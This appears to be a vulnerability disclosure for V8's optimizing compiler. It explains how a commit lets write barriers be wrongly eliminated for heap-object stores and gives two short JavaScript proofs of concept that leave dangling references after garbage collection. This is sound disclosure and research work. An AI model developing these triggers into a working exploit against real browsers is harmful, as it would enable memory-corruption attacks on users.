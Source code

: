 I think this commit has introduced the bugs: https://chromium.googlesource.com/v8/v8/+/c22ca7f73ba92f22d0cd29b06bb2944a545a8d3e%5E%21/#F0

Here's a snippet.
  case IrOpcode::kStoreField: {
    FieldAccess access = FieldAccessOf(node->op());
    Node* value_node = node->InputAt(1);
    NodeInfo* input_info = GetInfo(value_node);
    MachineRepresentation field_representation =
        access.machine_type.representation();

    // Make sure we convert to Smi if possible. This should help write
    // barrier elimination.
    if (field_representation == MachineRepresentation::kTagged &&
        TypeOf(value_node)->Is(Type::SignedSmall())) {
      field_representation = MachineRepresentation::kTaggedSigned;
    }
    WriteBarrierKind write_barrier_kind = WriteBarrierKindFor(
        access.base_is_tagged, field_representation, access.offset,
        access.type, input_info->representation(), value_node);

    ProcessInput(node, 0, UseInfoForBasePointer(access));
    ProcessInput(node, 1,
                 TruncatingUseInfoFromRepresentation(field_representation));
    ProcessRemainingInputs(node, 2);
    SetOutput(node, MachineRepresentation::kNone);
    if (lower()) {
      if (write_barrier_kind < access.write_barrier_kind) {
        access.write_barrier_kind = write_barrier_kind;
        NodeProperties::ChangeOp(
            node, jsgraph_->simplified()->StoreField(access));
      }
    }
    return;
  }

Since Smi stores can be performed without write barriers, if it's possible to convert to Smi, it tries to help write barrier elimination by changing field_representation to MachineRepresentation::kTaggedSigned as noted in the comment. But whether or not field_representation has changed, it uses TruncatingUseInfoFromRepresentation to process the value node.

But TruncatingUseInfoFromRepresentation(kTaggedSigned) returns UseInfo::AnyTagged() which is also compatible with kTaggedPointer. So even in the case where input_info->representation() is kTaggedPointer and the value is a heap object, it may eliminate the write barrier.

Note: It's the same when handling kStoreElement.

PoC 1 using kStoreField.
var a, b;  // should be var
for (var i = 0; i < 100000; i++) {
    b = 1;
    a = i + -0;  // -0 is a number, so this will make "a" a heap object.
    b = a;
}

print(a === b);  // true
gc();
print(a === b);  // false
print(b);

PoC 2 using kStoreElement.
let arr = [{}];
var v;  // should be var
for (var i = 0; i < 700000; i++) {
    arr[0] = 1;
    v = i + -0;
    arr[0] = v;
}

print(arr[0] === v)  // true
gc();
print(arr[0] === v)  // false
print(arr[0]);


This bug is subject to a 90 day disclosure deadline. After 90 days elapse
or a patch has been made broadly available, the bug report will become
visible to the public.
